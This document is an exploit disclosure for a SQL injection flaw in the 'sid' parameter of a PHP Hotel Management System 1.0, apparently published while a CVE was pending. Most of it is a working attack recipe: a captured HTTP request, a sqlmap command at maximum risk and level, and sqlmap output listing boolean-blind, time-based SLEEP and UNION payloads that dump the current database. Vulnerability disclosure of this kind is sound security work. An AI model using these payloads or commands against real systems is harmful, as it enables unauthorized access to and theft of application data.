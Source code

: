 # Hotel Managment System - SQL Injection-2
+ *Exploit Title:* Hotel Managment System - SQL Injection-2
+ *Date:* 2024-02-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://code-projects.org/hotel-management-system-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/cd8fc4cb-c6b6-48f7-9cc3-27044a0a26a3
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, Waiting for CVE number

## Description:
Hotel Managment System 1.0, allows SQL Injection via the 'sid' parameter in Hotel/admin/show.php?rid=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/Hotel/admin/home.php
+ Click show button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Hotel/admin/show.php?sid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'sid' parameter to dump the database.
```
python sqlmap.py -r r.txt -p sid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: sid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: sid=2' AND 6172=6172-- rihG

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sid=2' AND (SELECT 4349 FROM (SELECT(SLEEP(5)))VTTj)-- qEzP

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: sid=2' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176767a71,0x7175487a6d65646c43574b416f76734e716679706277507867684d697a43576b677264734b57705a,0x716b6a6a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[18:55:35] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:55:35] [INFO] fetching current database
current database: 'hotel'
```
+ current database : `hotel`
  
![Ekran görüntüsü 2024-02-02 025707](https://github.com/tubakvgc/CVEs/assets/74067343/9a29d0bb-a78d-422b-82f8-3adda424ea0b)




  

